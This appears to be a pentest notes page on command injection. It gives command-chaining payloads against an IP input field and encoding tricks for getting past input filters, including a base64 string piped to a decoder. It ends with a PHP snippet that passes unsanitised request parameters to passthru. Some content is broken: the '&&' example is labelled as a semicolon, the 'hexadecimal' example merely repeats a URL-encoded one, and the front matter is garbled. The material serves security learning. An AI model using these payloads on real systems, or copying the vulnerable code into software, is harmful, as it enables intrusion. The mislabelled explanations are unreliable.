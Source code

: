 ```yaml
---
description: Can upload files revsre shell
---
```


# Command injection

The main defence for preventing injection attacks is ensuring that user-controlled input is not interpreted as queries or commands. There are different ways of doing this:

* Using an allow list: when input is sent to the server, this input is compared to a list of safe inputs or characters. If the input is marked as safe, then it is processed. Otherwise, it is rejected, and the application throws an error.
* Stripping input: If the input contains dangerous characters, these are removed before processing.

## Basic Command Injection

The simplest way is by inserting a command separator to chain additional commands. These are typical in Unix-based systems, but Windows has its own variations.

**Semicolon (`;`)**: Executes commands sequentially.

```bash
127.0.0.1; ls
```

**Semicolon (`;`)**: Executes commands sequentially.

```bash
127.0.0.1 && id
```

**Double pipe (`||`)**: Executes the second command only if the first one fails.

```bash
127.0.0.1 || id
```

**Pipe (`|`)**: Sends the output of one command as the input to the next.

```bash
127.0.0.1 | ls
```

## Bypassing Input Filters

**Base64 Encoding**: Some filters might not check for base64-encoded payloads.

```bash
echo "LS0gY2F0IC9ldGMvYXBwYWdlX2ZpbGU=" | base64 -d
```

**URL Encoding**: Certain characters might be URL-encoded (`%3B` for `;`, `%26` for `&`, `%7C` for `|`).

```bash
127.0.0.1%3B id
```

**Double URL Encoding**: Encode characters multiple times to bypass filters that decode only once.

```bash
127.0.0.1%253B id
```

**Hexadecimal Encoding**: Some filters don't properly decode hexadecimal characters.

```bash
127.0.0.1%3B id
```

{% embed url="https://www.youtube.com/watch?v=kiP12PrXOZA" %}

<figure><img src="../../../../../../../.gitbook/assets/9f657b909062ac82af12548b4f346aec.png" alt=""><figcaption></figcaption></figure>

```php
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];
        $cow = 'default';

        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");
    }
?>
```
